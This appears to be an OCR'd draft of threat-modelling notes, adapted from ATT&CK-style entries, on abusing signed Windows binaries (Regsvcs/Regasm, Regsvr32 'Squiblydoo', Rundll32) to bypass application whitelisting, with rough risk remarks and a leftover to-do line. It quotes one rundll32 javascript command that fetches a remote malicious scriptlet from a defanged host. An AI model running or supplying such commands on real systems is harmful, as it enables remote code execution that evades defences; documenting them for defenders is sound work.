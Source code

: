 ### Regsvcs/Regasm
Adversaries can use Regsvcs and Regasm to proxy execution of code through a trusted Windows utility. Both utilities may be used to bypass process whitelisting through use of attributes within the binary to specify code that should be run before registration or unregistration: [ComRegisterFunction] or [ComUnregisterFunction] respectively. The code with the registration and unregistration attributes will be executed even if the process is run under insufficient privileges and fails to execute. [3][4]

[3]
https://lolbas-project.github.io/lolbas/Binaries/Regsvcs/
[4]
https://lolbas-project.github.io/lolbas/Binaries/Regasm/
This command can be exploited in seconds with no privilege as long as it is enabled on the user session.

We assessed this probability distribution to be binary.

### Regsvr32

Adversaries may take advantage of this functionality to proxy execution of code to avoid triggering security tools that may not monitor execution of, and modules loaded by, the regsvr32.exe process because of whitelists or false positives from Windows using regsvr32.exe for normal operations. Regsvr32.exe is also a Microsoft signed binary.

Regsvr32.exe can also be used to specifically bypass process whitelisting using functionality to load COM scriptlets to execute DLLs under user permissions. Since regsvr32.exe is network and proxy aware, the scripts can be loaded by passing a uniform resource locator (URL) to file on an external Web server as an argument during invocation. This method makes no changes to the Registry as the COM object is not actually registered, only executed.  This variation of the technique is often referred to as a "Squiblydoo" attack and has been used in campaigns targeting governments.

Regsvr32.exe can also be leveraged to register a COM Object used to establish Persistence via Component Object Model Hijacking. 

https://www.carbonblack.com/2016/04/28/threat-advisory-squiblydoo-continues-trend-of-attackers-using-native-os-tools-to-live-off-the-land/
This exploit can be performed in seconds with user/adminRights and no restriction, and requires exploitProtection to be mitigated.
This is performed after a successful spearphihsing campaign.


We assessed this probability distribution to be binary.

### Rundll32

Rundll32.exe can be used to execute Control Panel Item files (.cpl) through the undocumented shell32.dll functions Control_RunDLL and Control_RunDLLAsUser. Double-clicking a .cpl file also causes rundll32.exe to execute. 
ADD CONTROLPANELITEM TO THE CHILDREN

Rundll32 can also been used to execute scripts such as JavaScript. This can be done using a syntax similar to this: ``rundll32.exe javascript:"..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https[:]//www[.]example[.]com/malicious.sct")"`` This behavior has been seen used by malware such as Poweliks.
